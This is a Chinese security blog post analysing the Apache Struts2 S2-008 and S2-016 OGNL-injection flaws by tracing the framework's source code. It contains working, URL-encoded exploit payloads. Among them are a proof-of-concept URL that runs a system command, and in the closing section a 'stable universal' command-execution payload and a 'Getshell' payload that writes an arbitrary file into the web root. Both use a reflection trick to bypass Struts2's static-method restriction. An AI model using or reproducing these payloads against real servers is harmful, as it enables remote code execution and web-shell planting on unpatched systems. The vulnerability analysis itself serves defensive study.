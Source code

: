 # struts2最近几个漏洞分析&稳定利用payload

weibo:[genxor](http://weibo.com/u/2296090825)

0x00 背景
-------

* * *

看到网上关于struts2利用的文章非常多，但是对于漏洞触发跟踪分析的文档比较少，闲来无事跟踪了一下struts最近吵得比较火的两个漏洞，研究了一下能够稳定利用的payload。

0x01 S2-008
-----------

* * *

Struts2框架存在一个devmode模式，方便开发人员调试程序，但是默认devmode是不开启的，如果想要使用，需要手动修改参数，可以将struts.properties中的devmode设置为true，或是在struts.xml中添加如下代码，

```
<constant name="struts.devMode" value="true" /> 

```

实际上devmode依赖于struts2底层的struts2-core.jar中的DebuggingInterceptor.java实现，然后漏洞也存在于此程序中。这里我以debug=command这个逻辑下，测试漏洞，我的POC如下所示：

```
http://localhost:8080/S2-016/hello.action?debug=command&expression= %23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 

```

首先，这里是devmode的几种模式，

![enter image description here](http://drops.javaweb.org/uploads/images/03d9c20784c773768adcd0a1faed175925625251.jpg)

继续跟踪DebuggingInterceptor.java的代码，发现问题出在下面这个逻辑当中

![enter image description here](http://drops.javaweb.org/uploads/images/a00826f185c9c5ae76281fbe36985909aff44a24.jpg)

跟踪参数如图

![enter image description here](http://drops.javaweb.org/uploads/images/8c6ced448d0d26d189b5f3ee5da41fb371e2b428.jpg)

可以看到这里

```
String cmd = getParameter(EXPRESSION_PARAM); 
… 
writer.print(stack.findValue(cmd)); 

```

这里cmd没做任何处理，后面直接findValue（findValue能够执行OGNL表达式，具体参考官方文档），导致OGNL表达式执行。

关于这个漏洞执行，其实没什么好说的，关键是这个payload调用java反射类(可以访问一些私有成员变量)绕过了struts2限制执行java静态方法的规则法的规则，使之前apache官方的修复又白费了。因为struts2在2.3.14.1版本之后便设置#_memberAccess[“allowStaticMethodAccess”]为不可修改，而要调用java静态方法，必须要设置allowStaticMethodAccess为true才可以。这里使用

```
#f = #_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')
#f.setAccessible(true) 
#f.set(#_memberAccess, true) 

```

这里使用java的反射机制绕过了限制。另外，还有利用java.lang.ProcessBuilder类的start()方法来实现（ProcessBuilder类是用来创建系统进程的，每个实例管理一个进程属性集合，start方法用来创建一个新的进程实例，并且可以从相同的实例中反复多次的初始化、创建子进程。随便构造一个java.lang.ProcessBuilder的实例，然后调用它的start()方法，便达到命令执行的目的），但这个算是另一种思路，并没有从根本上修改#_memberAccess[“allowStaticMethodAccess”]的值。

0x02 S2-016
-----------

* * *

在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

这里以“redirect:”前缀举例，struts2会将“redirect:”前缀后面的内容设置到redirect.location当中，这里我们一步步跟踪，首先是这个getMapping函数跟入

![enter image description here](http://drops.javaweb.org/uploads/images/84ef4ced5fc44d660a17783ee6cbb2d00d282a73.jpg)

这里一直到这个handleSpecialParameters()，继续跟入

![enter image description here](http://drops.javaweb.org/uploads/images/86930e2407dab17199e2737daea225f95b1aded7.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/dd3c85c47b140c754aabed01f7cb51eaaaae3a1b.jpg)

这里真正传入OGNL表达式是在这个parameterAction.execute()中，继续跟入来到DefaultActionMapper.java的代码

![enter image description here](http://drops.javaweb.org/uploads/images/5cd810b36911ef35fec9d335a40d1c259e35db1c.jpg)

这里key.substring(REDIRECT_PREFIX.length())便是前缀后面的内容也就是OGNL表达式，struts2会调用setLocation方法将他设置到redirect.location中。然后这里调用mapping.setResult(redirect)将redirect对象设置到mapping对象中的result里，如图所示

![enter image description here](http://drops.javaweb.org/uploads/images/f4d5461d144b469601b6c4e8ae6dee508a62c685.jpg)

然而上面的过程只是传递OGNL表达式，真正执行是在后面，这里是在FilterDispatcher类中的dispatcher.serviceAction()方法，这里的mapping对象中设置了传入的OGNL

![enter image description here](http://drops.javaweb.org/uploads/images/641e1bbe96e1efbacf1d82202f0fc20754b1218c.jpg)

这里跟入方法最终会在TextParseUtil这个类的调用stack.findValue()方法执行OGNL。

![enter image description here](http://drops.javaweb.org/uploads/images/ffdb359c5d262c9a58b880fb4ebe4d7ceb426a83.jpg)

0x03 PAYLOAD
------------

* * *

这里我结合之前几个漏洞凑出一个通用payload，目前测试还是很稳定的

命令执行

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29

```

Getshell

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletRequest%22%29%2c%23b%3dnew+java.io.FileOutputStream%28new%20java.lang.StringBuilder%28%23a.getRealPath%28%22/%22%29%29.append%28@java.io.File@separator%29.append%28%23a.getParameter%28%22name%22%29%29.toString%28%29%29%2c%23b.write%28%23a.getParameter%28%22t%22%29.getBytes%28%29%29%2c%23b.close%28%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%22BINGO%22%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29

```

同时在之前的struts2exp这个程序基础上修改出一个exp，整合了近几年出现的几个高危漏洞,

![enter image description here](http://drops.javaweb.org/uploads/images/49e98d5c57e350a9e8e13b1373675990722daaa5.jpg)

程序先不公开放出，大家可以自己用语句测试自己的服务器是否有该问题。